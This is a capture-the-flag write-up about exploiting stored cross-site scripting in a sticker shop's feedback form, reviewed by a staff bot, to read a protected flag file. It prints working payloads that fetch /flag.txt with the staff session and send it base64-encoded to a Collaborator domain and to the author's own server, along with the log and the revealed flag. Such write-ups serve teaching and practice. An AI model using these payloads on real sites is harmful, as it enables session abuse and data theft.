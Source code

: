 ## 🧾 Overview
Your local sticker shop has finally developed its own webpage. They do not have too much experience regarding web development, so they decided to develop and host everything on the same computer that they use for browsing the internet and looking at customer feedback. Smart move!
Can you read the flag at http://MACHINE_IP:8080/flag.txt?

## 🔍 Recon
I started the machine and visited the URL given. \
Got hit with a 401 Unauthorized. The file exists, I just can't access it.

So I started poking around the website and found two main pages:
1. Homepage - Just some cat images, nothing interesting
2. Feedback page - Where you can submit feedback

But here's the kicker: there's a notice saying "Feedback is reviewed manually by staff". That immediately got my attention 👀\
Submission forms are vulnerable to XSS attacks. So let's give it a try.

## 🛡️Testing for XSS with Burp Collaborator
First, I needed to confirm if XSS actually works. The problem is, the staff probably uses some automated bot (headless browser) to review feedback, so I can't just use <script>alert(1)</script> and expect to see a pop-up.\
I needed proof that my JavaScript executed on their end.

Here's what I did:
1. Fired up Burp Suite and went to Burp → Burp Collaborator client
2. Clicked "Copy to clipboard" - this gave me a unique domain like
```bash
w0xysci7ol1e9r3bdvouyf3zxq3hr9fy.oastify.com
```
3. Left that window open so I could monitor incoming connections

Then I crafted a simple test payload:
```bash
<script>fetch('https://w0xysci7ol1e9r3bdvouyf3zxq3hr9fy.oastify.com?test=xss')</script>
```
Submitted it in the feedback form, waited about 30 seconds\
Boom! 💥 I saw DNS queries hitting my Collaborator domain. This confirmed:\
✅ XSS works\
✅ Staff's browser executed my code\
✅ I can exfiltrate data

## 🤔Understanding Why I Get 401 (But the Payload Won't)
Here's the thing - when I try to access flag.txt, I'm just a regular user with no special permissions:
```bash
My Browser: "Hey, give me /flag.txt"
Server: "Who are you? Show me your session cookie."
My Browser: "I'm just a regular user"
Server: "Nope. 401 Unauthorized."
```
But when the staff's browser makes the request (through my XSS):
```bash
Staff's Browser: "Hey, give me /flag.txt"
Server: "Who are you? Show me your session cookie."
Staff's Browser: "I'm an admin with proper credentials."
Server: "Here you go! 200 OK"
```
So basically, I'm using the staff's authenticated session to fetch the file for me. They have the VIP pass, I'm just riding along 😎

## 🚀First Attempt - Sending to Collaborator
I tried this payload first:
```bash
<script>
fetch('/flag.txt')
  .then(response => response.text())
  .then(data => {
    fetch('https://w0xysci7ol1e9r3bdvouyf3zxq3hr9fy.oastify.com?flag=' + btoa(data));
  });
</script>
```
Make sure you use your Burp collaborator-generated domain.

The idea was:
1. Staff's browser fetches /flag.txt (they have access)
2. Encodes it in Base64 (btoa())
3. Sends it to my Collaborator URL

**● But here's where I hit a problem 😩**\
When I checked Collaborator, I only saw DNS queries - no actual HTTP requests with the flag data. The browser was trying to resolve the domain, but couldn't complete the HTTP request. Probably blocked by CSP or some firewall rule.

## ✅The Solution - My Own Local Server
**● Step 1: Starting a Python HTTP server**\
I just ran the basic Python HTTP server:
```bash
python3 -m http.server 4455
```
This starts listening on port 4455.

**● Step 2: Crafting the final payload**
```bash
<script>
fetch('/flag.txt')
  .then(r => r.text())
  .then(data => {
    fetch('http://IP:PORT?flag=' + btoa(data));
  });
</script>
```
Let me break down what each part does:
1. fetch('/flag.txt') - Staff's browser requests the flag file using their admin session
2. .then(r => r.text()) - Converts the response to plain text
3. btoa(data) - Encodes the flag in Base64 (so special characters don't break the URL)
4. fetch('http://IP:PORT?flag=...') - Sends the Base64-encoded flag to MY server

## Catching the Flag 🎣
I submitted the payload in the feedback form and watched my terminal where the Python server was running.
After some seconds, I saw this hit my server:
```bash
10.x.x.x - - [13/Oct/2025 05:35:42] "GET /?flag=ZmxhZ3t4c3NfaXNfcDB3M3JmdWx9 HTTP/1.1" 200 -
```
There it is! The Base64-encoded flag: ZmxhZ3t4c3NfaXNfcDB3M3JmdWx9

**●Step 3: Decoding the flag**
```bash
echo "ZmxhZ3t4c3NfaXNfcDB3M3JmdWx9" | base64 -d
```
Output:
```bash
flag{xss_is_p0w3rful}
```
Got it! 🚩

## Why This Worked
The key here was understanding that:
1. I couldn't access the file directly - 401 error blocked me
2. But the staff reviewing feedback could - they had the right session
3. XSS let me borrow their access - their browser made the request for me
4. Local server bypassed restrictions - internal network traffic was allowed

No fancy tools needed, just basic Python HTTP server and some clever JavaScript.

## Flag captured! Time to submit and move to the next challenge 😤
